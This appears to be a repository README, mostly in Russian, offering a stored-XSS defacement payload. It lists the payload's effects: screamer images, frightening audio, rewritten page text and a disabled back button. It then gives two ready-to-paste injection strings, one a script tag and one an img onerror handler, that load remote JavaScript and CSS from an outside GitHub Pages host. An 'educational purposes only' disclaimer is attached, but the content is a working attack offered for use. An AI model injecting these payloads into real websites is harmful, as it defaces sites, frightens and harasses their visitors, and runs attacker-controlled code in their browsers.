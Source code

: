 # XSS

Код сработает только при наличии уязвимости хранимый XSS + если сайт не будет блокировать загрузку внешних скриптов и стилей. <br>

* Страшная музыка.
* Постепенно изменяющийся цвет фона на красный.
* Прыгающий и мигающий текст.
* Нельзя вернуться на предыдущую страницу (зависит от браузера).
* Замена всех изображений на скример.
* Замена текста в тегах "p", "h1", "a".
* Замена всех тегов "a" на "p".
* Скример на весь экран с криком в течение какого-то времени.

⚠️ Important: This payload is for educational purposes only and for testing on your own or training systems. Use in real attacks violates laws and ethical standards. The author of the repository is not responsible for the use of this payload by third parties.

------------------------------------------

Полная версия (JS + CSS):
<br><br>Через тег "script" [288 символов]:
<br>```<script>var c=document.createElement('link');c.rel='stylesheet';c.href='//scullteam.github.io/XSS/styles.css';document.head.appendChild(c);var r=document.createElement('script');r.src='//scullteam.github.io/XSS/script.js';document.body.appendChild(r);</script>```
<br><br>Через тег "img" [300 символов]:
<br>```<img src="" alt="" onerror="var c=document.createElement('link');c.rel='stylesheet';c.href='//scullteam.github.io/XSS/styles.css';document.head.appendChild(c);var r=document.createElement('script');r.src='//scullteam.github.io/XSS/script.js';document.body.appendChild(r)">```
